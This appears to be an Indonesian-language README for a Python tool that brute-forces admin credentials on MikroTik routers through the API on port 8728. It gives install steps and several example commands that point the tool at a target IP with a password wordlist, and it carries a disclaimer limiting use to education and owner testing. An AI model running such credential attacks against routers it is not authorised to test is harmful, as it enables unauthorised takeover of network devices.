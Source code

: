 # Mikrotik API Boot Attack
Mikrotik API Boot Attack adalah tool sederhana untuk melakukan pengujian pada kredensial login admin Router Mikrotik dengan tekhnik Brute Force.

Tool ini hanya boleh digunakan untuk edukasi saja atau pengujian saja terutama bagi para pemilik admin Mikrotik yang membuka akses API pada port 8728 yang biasa digunakan untuk membuat akun "Mikhmon" (Mikrotik Hotspot Monitor) untuk jualan Wi-Fi voucheran.

#
<b>[ Cara Install MikrotikBot ]</b>

1. Download dan instal python (minimum python 3.x.x):
https://www.python.org/downloads/

2. Download dan instal Git:
https://git-scm.com/downloads

3. Jalankan CMD (Command Prompt)/Termux
   ```git clone https://github.com/MichaelJorky/Mikrotik-API-Boot-Attack.git .MikrotikBot```

4. Instal Colorama:
   ```python -m pip install colorama``` 

   Dokumentasi lengkap colorama -> https://pypi.org/project/colorama/

4. Instal Laiarturs Ros API
   ```python -m pip install laiarturs-ros-api``` 

   Dokumnetasi lengkap laiarturs ros api -> https://pypi.org/project/laiarturs-ros-api/

5. Jalankan scrypt python lewat ```cd .MikrotikBot```

6. Lalu pastekan kode ini:

   ```python MikrotikBot.py -t 10.10.10.1 -d password.txt```
   10.10.10.1 ganti dulu dengan target tujuan.

#
<b>[ Contoh Penggunaan Kode MikrotikBot lainnya ]</b>

```
python MikrotikBot.py -t 10.10.10.1 -d password.txt
python MikrotikBot.py -t 10.10.10.1 -d password.txt -a save.json
python MikrotikBot.py -t 10.10.10.1 -d password.txt -s 3
python MikrotikBot.py -t 10.10.10.1 -d password.txt -s 3 -a save.json
python MikrotikBot.py -t 10.10.10.1 -u admin -p 80 -d password.txt
python MikrotikBot.py -t 10.10.10.1 -u admin -p 80 -d password.txt -a save.json
python MikrotikBot.py -t 10.10.10.1 -u admin -p 80 -d password.txt -s 3
python MikrotikBot.py -t 10.10.10.1 -u admin -p 80 -d password.txt -s 3 -a save.json
```

#
<b>[ Penjelasan Lengkap Kode pada MikrotikBot ]</b>

   -t 10.10.10.1: ganti dengan target ip address tujuan misalkan 192.168.1.1
   
   -d password.txt: Anda bisa menambahkan atau mengurangi jumlah daftar password pada password.txt
   
   -s 3: anda bisa mengganti delay 3 detik menjadi misal -s 2 (2 detik), -s 4 (4 detik)
   
   -a save.json: secara otomatis menyimpan kemajuan saat ini ke file, dan membacanya kembali saat startup
   
   Petunjuk lengkapnya: ```python MikrotikBot.py -h```
